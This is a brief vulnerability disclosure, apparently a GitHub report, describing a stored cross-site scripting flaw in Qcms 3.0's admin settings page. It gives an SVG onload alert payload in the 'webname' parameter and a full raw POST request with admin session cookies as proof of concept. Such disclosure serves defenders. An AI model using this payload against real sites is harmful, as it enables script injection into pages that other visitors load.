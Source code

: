 #Qcms version 3.0 has xss via the webname parameter to the /backend/system.html URI

there is a xss in admin page `/backend/system.html` webname parameter.

set xss payload `<svg/onload=alert(0)>` to the webname parameter and save the edit then visite site `/index.php`,there is a alert box to show 0.

![](1.png)

	POST /backend/system.html HTTP/1.1
	Host: localhost
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	Referer: http://localhost/backend/system.html
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 40
	Cookie: PHPSESSID=8sqolv5pb9kfljuh5g0b36tus6; admin_id=1; admin_level=1; admin_name=admin; admin_secret=f63fad88029cf8f923c35fafe1c6b5d1; UM_distinctid=162181544af9-0ca6b89389a11d8-4c322172-1fa400-162181544b04ce;
	Connection: close
	Upgrade-Insecure-Requests: 1
	
	webname=%3Csvg%2Fonload%3Dalert%280%29%3

![](2.png)